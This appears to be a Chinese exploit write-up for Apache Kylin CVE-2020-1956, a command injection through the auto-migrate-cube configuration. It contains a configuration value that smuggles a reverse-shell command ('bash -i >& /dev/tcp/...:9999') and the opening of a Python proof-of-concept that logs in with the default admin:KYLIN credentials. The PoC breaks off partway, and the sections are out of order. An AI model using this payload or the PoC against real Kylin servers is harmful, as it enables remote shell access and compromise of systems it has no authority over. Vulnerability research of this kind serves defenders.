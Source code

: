 ```
            }
            return Pair.newPair(1, "Killed");
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

发现这两个配置默认为空，因为配置允许自定义，所以 srcCfgUri 和 dstCfgUri 两个变量均是可控的

继续向下走，发现一处**命令拼接**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el57b8IfopfgCseiaeLqFYp7E06UNHMfhsENkyFBr59pChwAelHePI1gvlt54ChWalc90V9CfLiaibn7g/640?wx_fmt=png)

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

进入到 **execute** 函数

```
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
```